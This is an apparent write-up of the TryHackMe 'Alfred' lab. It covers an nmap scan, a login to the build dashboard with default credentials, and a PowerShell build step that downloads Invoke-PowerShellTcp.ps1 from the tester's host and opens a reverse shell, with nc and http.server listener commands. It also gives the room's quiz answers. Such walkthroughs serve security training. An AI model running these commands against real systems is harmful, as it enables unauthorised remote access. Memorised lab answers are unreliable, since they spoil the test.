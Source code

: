 ## Alfred | TryHackMe

This is the link for the room [Alfred](https://tryhackme.com/room/alfred)

<img src="https://tryhackme-images.s3.amazonaws.com/room-icons/953f1e4a27c7e04130b824ec1bc8e159.png" width="200px" align="center">

---
Let's go!

`nmap -sC -sV -p- -T4 {IP}`

-sC = Run the default script.

-sV = Version of services.

-p- = Checking for all port.

-T4 = Scanning speed.

This is the result for the scanning with nmap tools.

<img src="https://user-images.githubusercontent.com/67650329/193412394-5900ea63-979f-44a0-a723-217e5b828f10.png" width="400px" align="center">

**How many ports are open? (TCP only)**

**Anwer: 3**

This is the login page for this website.

<img src="https://user-images.githubusercontent.com/67650329/193412491-6221874c-3b45-41d9-abd0-0a522e6004f7.png" width="400px" align="center">

You can try most commond Username and Password [Wikipedia](https://en.wikipedia.org/wiki/List_of_the_most_common_passwords)

**What is the username and password for the log in panel(in the format username:password)**

**Answer: admin:admin**

We can exploring the dashboard to find the vulnerability.

And after take a few minutes. I can write some script on there.

Go to New Item -> Freestyle project -> Add build step -> Execute Windows batch command

Script:

-> `powershell iex (New-Object Net.WebClient).DownloadString('http://{your_ip}:8000/Invoke-PowerShellTcp.ps1');Invoke-PowerShellTcp -Reverse -IPAddress {your_ip} -Port {port}`

<img src="https://user-images.githubusercontent.com/67650329/193412665-029b5338-b1b9-4392-926d-e6ab83f3ccf4.png" width="400px" align="center">

Before you apply the script you must running listener.

`python3 -m http.server`

`nc -lvnp 4443`

After you run the listener you can Apply and Done.

Click `Build Now` to run the script.
